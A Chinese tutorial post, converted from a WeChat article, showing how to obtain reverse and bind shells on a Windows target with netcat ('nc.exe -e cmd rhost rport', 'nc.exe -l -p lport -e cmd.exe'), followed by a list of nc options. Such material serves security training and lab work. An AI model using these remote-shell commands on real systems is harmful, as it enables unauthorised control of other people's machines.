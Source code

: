 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/27qXm0ImztgA0UNgLQZl7g)

**网络拓扑图如下：**  

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW93nxrXib52xwT4uvnV5CVxHDHQ0ETf3mrgMFHhRIPTYrJcwZtSdSWG8Q/640?wx_fmt=png)

**1****、****nc**

**1.1** **反向连接**

攻击机：nc -lvp port

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9zuR2WvoY5r09KzjcXMAozNRSKtRkvryJWKSWqibAqAJ6owlYCPiaMAiaA/640?wx_fmt=png)

靶机 (windows)：nc.exe -e cmd rhost rport

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW99WyehNVVNLjXkiaw2oKVydSNSd9CHzNZy19UozWibtG2BicQNGXeBx4fA/640?wx_fmt=png)

成功反弹 shell：

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9hcIial3uN9uElVTiaeZ953JvSUQZBFD2GpIGKVibSsF17PORUAXHvicQDg/640?wx_fmt=png)

**1.2** **正向连接**

靶机 (windows)：nc.exe -l -p lport -e cmd.exe

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9aRe25ycTRF2239SuJ18V6oCLaAKYDY90CESREguEWhIdc1gIXf51OQ/640?wx_fmt=png)

攻击机：nc -nvv rhost rport

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2ibVwCicFKYEwFJoBXCGSPW9ibAv5R1kiblwXGz2Z8rpaeZDWNJV4Y7MfVgYqF3LqUyHkDjcZZLUyTaQ/640?wx_fmt=png)

**1.3 nc** **的一些参数**

  -g< 网关 >   设置路由器跃程通信网关，最丢哦可设置 8 个。

  -G< 指向器数目 >   设置来源路由指向器，其数值为 4 的倍数。

  -h   在线帮助。

  -i< 延迟秒数 >   设置时间间隔，以便传送信息及扫描通信端口。

  -l   使用监听模式，管控传入的资料。

  -n   直接使用 IP 地址，而不通过域名服务器。

  -o< 输出文件 >   指定文件名称，把往来传输的数据以 16 进制字码倾倒成该文件保存。

  -p< 通信端口 >   设置本地主机使用的通信端口。

  -r   乱数指定本地与远端主机的通信端口。

  -s< 来源位址 >   设置本地主机送出数据包的 IP 地址。

  -u   使用 UDP 传输协议。

  -v   显示指令执行过程。

  -w< 超时秒数 >   设置等待连线的时间。
